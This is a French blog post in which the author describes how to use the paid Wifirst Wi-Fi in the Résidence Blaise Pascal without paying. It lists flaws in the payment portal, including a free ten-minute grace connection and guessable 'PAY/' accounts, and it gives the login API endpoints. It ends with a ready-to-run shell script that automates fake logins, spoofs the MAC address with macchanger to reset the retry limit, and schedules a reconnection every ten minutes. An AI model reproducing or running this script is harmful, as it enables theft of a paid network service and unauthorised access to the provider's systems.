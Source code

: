 ```yaml
---
title: Hack Wifirst dans la Résidence Blaise Pascal
tags:
  - Daily
lang: fr
---
```


J'ai déménagé à la Résidence Blaise Pascal le mois dernier.
Je suis content de son loyer, qui est vraiment pas cher.
Mais on ne peut plus utiliser le Wi-Fi `Eduroam`.
J'ai essayé un peu le Wi-Fi `Wifirst Blaise Pascal`.
Sa vitesse n'était pas mal et j'ai trouvé des vulnérabilités à exploiter
tel que l'on peut l'utiliser sans rien payer.

## Vulnérabilités

1. Chaque fois que nous commandons un abonnement, nous sommes donnés dix minutes de connexion
   pour finir notre payement.
   Nous obtenons cette connexion si nous visitons une page avec URL
   https://portal-front.wifirst.net/subscription/connect/261098,
   où le nombré `261098` peut être n'importe quoi,
   ici j'utilise mon anniversaire comme exemple.
   
> Si vous avez peur de la configuration informatique,
> veuillez juste cliquer le lien au-dessus chaque dix minutes
> pour vous profiter la connexion gratuite
> et vous pouvez arrêter de lire sans problème.

2. Pour dix minutes, on reste connecté même si on part le page du payement.
   Mais nous n'avons que quatre chances à connecter utilisant la connexion ramenée par nos
   « intentions » de commande pendant deux heures.

3. Si nous changeons notre adresse de MAC, nos quatre chances de connecter
   sont recalculé immédiatement.

4. Le dix minutes de connexion est en effet alloué au compte nommé `PAY/jing@wifirst.net`
   avec mot de passe `jing`.
   Encore, nous pourrons remplacer le nome `jing` par n'importe quoi,
   et j'utilise mon surnom habituel ici.

5. L'API (Interface de programmation) pour login est sous l'URL
   https://wireless.wifirst.net:8090/goform/HtmlLoginRequest, et l'API pour déconnecter
   est sous l'URL https://wireless.wifirst.net:8090/goform/HtmlLogout.
   Dans le POST requête pour le login URL,
   c'est obligatoire de fournir les domaines `username`, `password`, `success_url` et `error_url`.

## Exploiter

Les commandements suivants sont utilisé dans mon système d'exploitation `Ubuntu Kinetic Kudu`
pour automatiser et maintenir la connexion.

- `curl`, ennoyer la requête de POST avec les donnés nécessaires.
- `at`, connecter et déconnecter automatiquement pour chaque dix minutes
  par appelant `curl` commandement.
- `iwgetid`, vérifier que je suis connecté au Wi-Fi `Wifirst Blaise Pascal` en ce moment.
- `NetworkManager`, exécuter ma scripte une fois que je suis connecté au Wi-Fi.

Voici ma scripte pour vous faites référence.

```sh
#! /bin/sh

# Please change this variable accordingly.
path_to_current_script="$HOME/Documents/Code/Shell/scripts/blasie_pascal_wifi"

# To start the login process automatically once you are connected to the Wi-Fi,
# put the following commands into a script located at the directory /etc/NetworkManager/dispatcher.d/.
# Replace $USER and $path_to_current_script by correct values in current system.
# You might need to set $USER to be able to run the sudo commands in this script without password
# via `sudo visudo /etc/sudoers`.
#
# #! /bin/sh
# if [ $1 = 'wlp1s0' ] && [ $2 = 'dhcp4-change' ] &&
# 	[ $CONNECTION_ID = "Wifirst Blaise Pascal" ]; then
# 	su $USER $path_to_current_script
# fi

if [ "$(iwgetid | grep 'ESSID:"Wifirst Blaise Pascal"')" ]; then

	# First logout from possible old sessions

	/bin/curl -s 'https://wireless.wifirst.net:8090/goform/HtmlLogout' \
		--data "error_url=https://www.google.fr" \
		--data "success_url=https://portal-front.wifirst.net"

	# Generate random account

	current_time=$(date +%s%3N)
	error_code=$(curl -s -D - 'https://wireless.wifirst.net:8090/goform/HtmlLoginRequest' \
		--data "username=PAY/$current_time@wifirst.net" \
		--data "password=$current_time" \
		--data "success_url=https://www.google.fr" \
		--data "error_url=https://portal-front.wifirst.net" \
		--compressed | grep -o -P 'code=\K\d')
	if [ $error_code ]; then
		# notify-send "Wifi fails with code $error_code" "Attempt to change the mac address"

		sudo /sbin/ifconfig wlp1s0 down
		sudo /bin/macchanger -r wlp1s0
		sudo /sbin/ifconfig wlp1s0 up
		# Network dispatcher would run this script again
	else
		# remove possible duplicated at jobs
		/bin/atq -q n | /bin/cut -f 1 | /bin/xargs /bin/atrm
		# setup new job in 10 minutes
		/bin/at -q n -M -f $path_to_current_script now + 10 minute
	fi
fi
```
